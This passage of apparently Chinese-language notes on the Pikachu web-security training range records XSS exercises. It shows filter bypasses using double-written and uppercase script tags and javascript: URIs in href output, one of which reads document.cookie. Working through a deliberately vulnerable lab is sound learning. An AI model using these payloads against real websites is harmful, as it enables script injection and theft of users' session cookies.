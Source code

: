 ![image-20230812154100666](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230812154100666.png)



### xss-过滤

不知道过滤了什么 双写，提交后没反应

`<sc<script>ript>alert("123")</script>`

换成大写后成功

`<SCRIPT>alert('xss')</SCRIPT>`

### xss之htmlspecialchars

> `specialchars`函数就是把单引号，双引号，尖括号过滤了，但是这个函数默认是不过滤单引号的

```
javascript:alert(1)
```

### xss之href输出

> href 属性的值可以是任何有效文档的相对或绝对 URL，包括片段标识符和 JavaScript 代码段。如果用户选择了`<a>`标签中的内容，那么浏览器会尝试检索并显示 href 属性指定的 URL 所表示的文档，或者执行 JavaScript 表达式、方法和函数的列表。

```js
javascript:alert(document.cookie)
javascript:alert(1)
```
